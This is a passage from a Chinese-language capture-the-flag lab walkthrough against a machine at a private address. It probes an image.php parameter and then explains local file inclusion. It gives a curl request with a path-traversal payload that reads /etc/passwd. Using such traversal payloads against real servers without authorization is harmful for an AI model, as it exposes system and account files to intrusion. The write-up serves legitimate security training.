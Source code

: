 根据回显, 转换到 `image.php` 替换参数为 `secrettier360`:

```bash
sudo curl http://192.168.170.139/image.php?secrettier360
```

线索到这里暂时就断了, 这个页面可能还要结合其他漏洞利用才能突破。

---

![4-3.png](4-3.png)

### 文件包含漏洞利用

文件包含漏洞是 web 常见的漏洞, 允许攻击者通过未经验证的用户输入**访问或执行服务器上的任意文件**。

>   在大多数情况下，使用足够多的 `../` 可以成功访问 `/etc/passwd`，因为服务器操作系统在处理路径时会**自动忽略多余的层级**。

在上一节最后一步的页面中尝试文件包含漏洞:

```bash
sudo curl http://192.168.170.139/image.php?secrettier360=../../../../../../../../etc/passwd
```

---

![5.png](5.png)
